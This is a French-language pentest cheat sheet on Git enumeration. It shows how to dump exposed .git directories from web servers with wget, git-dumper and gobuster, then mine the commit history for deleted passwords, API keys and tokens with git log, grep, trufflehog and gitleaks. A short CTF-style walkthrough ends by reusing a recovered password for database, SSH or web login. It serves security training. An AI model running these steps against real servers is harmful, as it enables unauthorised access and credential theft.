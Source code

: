 # GIT ENUMERATION

### <mark style="color:red;">🧩 Contexte</mark>

* Les répertoires `.git/` exposés sur un serveur web (souvent oubliés après un déploiement) permettent :
  * De récupérer **tout l’historique de code source**.
  * De découvrir des **mots de passe, clés API, tokens** supprimés mais présents dans l’historique.
  * De révéler des **failles de logique** ou des informations sensibles (ex: routes cachées, secrets de build).

***

### <mark style="color:red;">🔎 Commandes Git utiles en pentest</mark>

#### 1. Récupérer un dépôt `.git`

```bash
# Télécharger avec wget
wget -r -np -R "index.html*" http://target/.git/

# Outil spécialisé
git-dumper http://target/.git/ ./dumped_repo
```

***

#### 2. Réinitialiser l’arborescence pour naviguer

```bash
cd dumped_repo
git reset --hard
```

***

#### 3. Visualiser l’historique complet

```bash
git log --stat --all
```

* `--stat` → montre les fichiers modifiés/supprimés.
* `--all` → inclut toutes les branches et commits, même orphelins.

Exemple sortie :

```
commit 83d2f4b
Author: dev <dev@target>
Date:   Tue Jan 5 14:23:11 2025

 config.php | 2 +-
 1 file changed, 1 insertion(+), 1 deletion(-)
```

⚠️ Indice : un mot de passe supprimé peut apparaître ici.

***

#### 4. Explorer les commits en détail

```bash
git show <commit_id>
```

➡️ Montre les changements exacts, souvent secrets supprimés par erreur.

***

#### 5. Parcourir toutes les branches et tags

```bash
git branch -a
git tag -l
```

***

#### 6. Rechercher des secrets dans l’historique

```bash
git log -p | grep -i "password"
git log -p | grep -i "secret"
git log -p | grep -i "api"
```

***

#### 7. Récupérer un fichier à un commit précis

```bash
git checkout <commit_id> -- config.php
```

***

### <mark style="color:red;">🛠 Outils spécialisés pour Git enumeration</mark>

*   [**git-dumper**](https://github.com/arthaud/git-dumper)\
    → Télécharge automatiquement un dépôt `.git` exposé.

    ```bash
    python3 git_dumper.py http://target/.git/ ./target_repo
    ```
* [**git-tools**](https://github.com/internetwache/GitTools)
  * `gitdumper.sh` : dump complet.
  * `extractor.sh` : restaure l’arborescence et commits.
*   [**trufflehog**](https://github.com/trufflesecurity/trufflehog)\
    → Scan des secrets (regex + entropie) dans l’historique Git.

    ```bash
    trufflehog --regex --entropy=False ./target_repo
    ```
* [**gitleaks**](https://github.com/gitleaks/gitleaks)\
  → Alternative moderne à trufflehog pour secrets dans git.

***

### <mark style="color:red;">📂 Exemple d’exploitation en CTF</mark>

#### Étape 1 – Découverte

```bash
gobuster dir -u http://target/ -w /usr/share/wordlists/dirb/common.txt
```

→ Détection de `.git/`.

#### Étape 2 – Dump du repo

```bash
git-dumper http://target/.git/ ./repo
cd repo && git reset --hard
```

#### Étape 3 – Recherche d’indices

```bash
git log --stat --all
git show <commit_id>
grep -r "password" .
```

#### Étape 4 – Secret trouvé

Exemple :

```php
$db_pass = "Sup3rS3cr3tP@ss!";
```

➡️ Utilisation pour login DB / SSH / Web.

***
